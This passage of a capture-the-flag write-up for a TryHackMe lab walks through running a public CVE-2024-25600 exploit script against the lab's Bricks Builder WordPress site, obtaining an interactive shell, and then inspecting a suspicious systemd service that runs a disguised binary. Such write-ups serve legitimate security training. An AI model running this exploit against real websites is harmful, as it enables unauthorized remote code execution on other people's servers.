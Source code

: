 <br/>

I decided to try a different [exploit](https://raw.githubusercontent.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/refs/heads/main/CVE-2024-25600.py) at this point

```jsx
┌──(venv)─(kali㉿kali)-[~/Desktop/Scripts/Exploits]
└─$ python3 CVE-2024-25600.py -u https://bricks.thm 
/home/kali/Desktop/Scripts/Exploits/CVE-2024-25600.py:18: SyntaxWarning: invalid escape sequence '\ '
  color.print("""[yellow]

   _______    ________    ___   ____ ___  __ __       ___   ___________ ____  ____
  / ____/ |  / / ____/   |__ \ / __ \__ \/ // /      |__ \ / ____/ ___// __ \/ __ \
 / /    | | / / __/________/ // / / /_/ / // /_________/ //___ \/ __ \/ / / / / / /
/ /___  | |/ / /__/_____/ __// /_/ / __/__  __/_____/ __/____/ / /_/ / /_/ / /_/ /
\____/  |___/_____/    /____/\____/____/ /_/       /____/_____/\____/\____/\____/
    
Coded By: K3ysTr0K3R --> Hello, Friend!

[*] Checking if the target is vulnerable
[+] The target is vulnerable
[*] Initiating exploit against: https://bricks.thm
[*] Initiating interactive shell
[+] Interactive shell opened successfully
Shell> ls

```

<br/>

# Flag 2 - What is the name of the suspicious process?

Looking through `systemctl` show a suspicious process.

```jsx
  systemd-timesyncd.service                        loaded active     running   Network Time Synchronization                                                 
  systemd-udevd.service                            loaded active     running   udev Kernel Device Manager                                                   
  ubuntu.service                                   loaded active     running   TRYHACK3M                                                                    
  udisks2.service                                  loaded active     running   Disk Manager                                                                 
  unattended-upgrades.service                      loaded active     running   Unattended Upgrades Shutdown     
```

<br/>

Lets get the process name from the service.

```jsx
Shell> systemctl cat ubuntu.service
# /etc/systemd/system/ubuntu.service
[Unit]
Description=TRYHACK3M

[Service]
Type=simple
ExecStart=/lib/NetworkManager/nm-inet-dialog
Restart=on-failure

[Install]
WantedBy=multi-user.target

```
